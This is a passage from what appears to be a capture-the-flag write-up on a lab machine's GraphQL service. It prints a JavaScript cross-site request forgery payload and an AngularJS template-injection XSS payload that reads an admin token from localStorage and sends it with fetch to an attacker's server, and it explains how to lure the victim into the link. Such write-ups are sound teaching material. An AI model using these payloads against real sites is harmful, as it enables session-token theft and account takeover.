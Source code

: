Once we have this user ID, we are able to craft a Cross-Site Request Forgery payload using JavaScript to force the user to update his profile using a GraphQL mutation. The JavaScript code is embedded in the Python script, so that we can format it with other variables:

```python
angularjs_xss_payload = '''{{constructor.constructor('fetch("http://10.10.17.44/" + localStorage.getItem("adminToken"))')()}}'''

    js_payload = '''
        fetch('http://internal-api.graph.htb/graphql', {
          method: 'POST',
          credentials: 'include',
          mode: 'no-cors',
          headers: {
            'Content-Type': 'application/json'
          },
          body: JSON.stringify({
            variables: {
              newusername: '%s',
              id: '%s',
              firstname: `%s`,
              lastname: 'asdf'
            },
            query: `
              mutation update($newusername: String!, $id: ID!, $firstname: String!, $lastname: String!) {
                  update(newusername: $newusername, id: $id, firstname: $firstname, lastname: $lastname) {
                      __typename
                  }
              }
            `
          })
        })
    ''' % (victim_user, victim_id, angularjs_xss_payload)
```

As it can be seen, it uses `fetch` to perform a POST request to the GraphQL endpoint with the corresponding mutation and indicating the user ID as `id`.

Notice that there is a variable called `angularjs_xss_payload`. This is the last step of the exploit to get `adminToken` from `localStorage`. There is a Cross-Site Scripting (XSS) injection in the `firstname` field (also in `lastname`), so we can abuse it to access `localStorage` and extract the `adminToken`.

The XSS in AngularJS can be triggered with the following payload:

```
{{constructor.constructor('fetch("http://10.10.17.44/" + localStorage.getItem("adminToken"))')()}}
```

Again, it uses petch to send the `adminToken` as the path to a local HTTP server.

Finally, to trigger the attack, we must send the victim user a link (Cross-Site Request Forgery). This must be done with another GraphQL mutation, so we will leave a message with the malicious URL and wait until the user goes in it.
